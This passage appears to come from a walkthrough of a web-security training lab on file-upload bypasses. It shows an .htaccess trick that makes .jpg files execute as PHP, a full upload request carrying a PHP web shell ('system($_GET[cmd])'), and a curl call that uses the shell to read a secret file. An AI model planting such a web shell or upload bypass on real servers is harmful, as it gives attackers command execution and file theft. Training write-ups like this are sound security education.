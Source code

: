 - Pay attention - in first requset in Burp we changed couple things - now `filename=".htaccess"` and `Content-Type: image/jpg`, because now our server will think that .jpg files should be treated as .php files - `AddType application/x-httpd-php .jpg`
- And second will looks like this (file with cmd and pay attention to filename `filename="expl.jpg"` and `Content-Type: image/jpeg`):

```html
POST /my-account/avatar HTTP/2
Host: <YOUR-LAB>.web-security-academy.net
Cookie: session=Tmy0RH9Yv843nAfcSmze8YGVfYahEDwe
Content-Length: 433
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://<YOUR-LAB>.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjNq5xeAFlx4KjOkk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR-LAB>.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryjNq5xeAFlx4KjOkk
Content-Disposition: form-data; name="avatar"; filename="expl.jpg"
Content-Type: image/jpeg

<?php system($_GET[cmd]); ?>

------WebKitFormBoundaryjNq5xeAFlx4KjOkk
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryjNq5xeAFlx4KjOkk
Content-Disposition: form-data; name="csrf"

qbxRKtCPudYlPLWo5aKPyKH1pd0D5QrL
------WebKitFormBoundaryjNq5xeAFlx4KjOkk--
```

- Next like in previous labs:

```bash
curl https://<YOUR-LAB>.web-security-academy.net/files/avatars/expl.jpg?cmd=cat+/home/carlos/secret
```
